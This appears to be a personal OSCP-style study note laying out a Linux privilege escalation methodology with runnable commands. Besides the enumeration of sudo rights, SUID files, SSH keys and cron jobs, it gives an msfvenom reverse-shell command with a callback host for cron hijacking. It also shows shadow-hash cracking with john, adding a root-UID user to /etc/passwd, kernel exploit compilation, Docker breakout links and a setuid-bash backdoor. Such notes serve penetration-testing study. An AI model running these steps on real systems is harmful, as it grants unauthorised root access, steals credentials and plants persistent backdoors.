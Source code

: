 ### Methodology (https://sirensecurity.io/blog/linux-privilege-escalation-resources/)
If moving laterally first check home directories if denied this indicates we need to escalate to that user first. 
See what files are readable especially configs
try brute ssh
try su user default or simple creds
#### User and groups
Make note of any custom groups!
```
whoami
whoami -groups
```

#### Binary permissions 
[https://gtfobins.github.io/](https://gtfobins.github.io/)
```
#sudoers
sudo -l

#capabilities
/usr/sbin/getcap -r / 2>/dev/null

#suid and guid
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
```
#### Searching for Secrets
```
#Known files and variables
env
bashrc + bash_history

#SSH Keys
find / -name id_rsa 2> /dev/null
find / -name authorized_keys 2> /dev/null
```

#### Locally running services
These can be forwarded [here](obsidian://open?vault=Offensive-Security&file=OSCP%2FPost%20Exploitation%2FTunneling)
```
ss -ntplu
sockstat -l
netstat -an
```

#### Interesting Directories
Enumerate these thoroughly for secrets!
```
/home
/var/log
/var/www/html #Any internal websites or configs here?
/tmp
/opt

#Find all files that are readble by user.
find /etc -type f -readable 2>/dev/null

#Find web config files.
find /var/www/html -type f \( -name "*.config" -o -name "*.txt" \)


```
#### Processes (https://github.com/DominicBreuker/pspy)
Any unusual processes or commands being run?
```
#Only prints system commands.
./psspy64 -p -i 1000

#Prints system commands and events.
./pspy64 -pf -i 1000

#Looking for root processes
ps aux | grep "^root"
watch -n 1 "ps -aux | grep pass"
```
#### Cron
Are there any scripts we can write to?
Are there any scripts that have a customized PATH we can write to?
```
#Inspect these for cronjobs that we could hijack
cat /etc/crontab
ls -lah /etc/cron*
crontab -l

#Can we see running cronjobs?
grep "CRON" /var/log/syslog

#Can we write to cronjob path?
	#Check cronjob or binary location, is its original location first in the path or second? If its after the path we can write to continue.
	find / -name <name> /dev/null
	whereis <name>
	
	#Create shell
	msfvenom -p linux/x64/shell_reverse_tcp -f elf -o shell LHOST=192.168.118.3 LPORT=21

	OR try another shell such as
	bash / python.

	#Write shell to path dir.
	#Wait for cronjob to run.

#Can we write to an executable that is being called inside the cronjob?
	
```
###### Example 1
![[Pasted image 20240123162852.png]]
```
1. Here you can see the export path is defined to a location we can write too.
2. We can also see the executable being called is not by its full path.
3. We can create a false executable with the same name in the path and get a shell.
```
### World Writeable Directories

```
find / -writable -type d 2>/dev/null
```
#### Automation

```
./linpeas.sh
```


#### Weak File Permissions

```
#Readable /etc/shadow
john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt

#Writable /etc/passwd
#Generate new SHA hash on local machine and write that in replace of the root one:
mkpasswd -m sha-512 <new-password>

#Don't forget to escape $
echo "root2:<hash>:0:0:root:/root:/bin/bash" >> /etc/passwd
su root2
```

#### Kernel Exploits

```
#Compile exploits inside XenSpawn to avoid issues.
https://github.com/X0RW3LL/XenSpawn

uname -a 
cat /etc/issue
searchsploit linux kernel <version> priv esc

#Linux Exploit Suggester
linuxexploitsuggest.pl -k <version>

#Start Xenspawn
sudo systemd-nspawn -M test

#compile exploit on Xenspawn
`gcc <file.c> -o <exploit>`

#Start python server on kali.
/var/lib/machines/test/root
python -m http.server 80
```

#### Docker Breakout

```
#Confirm you are in docker container first.
find / -name .dockerenv 2>/dev/null

#Follow these guides for breakouts.
https://juggernaut-sec.com/docker-breakout-lpe/
https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-security/docker-breakout-privilege-escalation
```


```
#Alternate way to get root rather then using a reverse shell.
chmod +s /bin/bash
/bin/bash -p
```
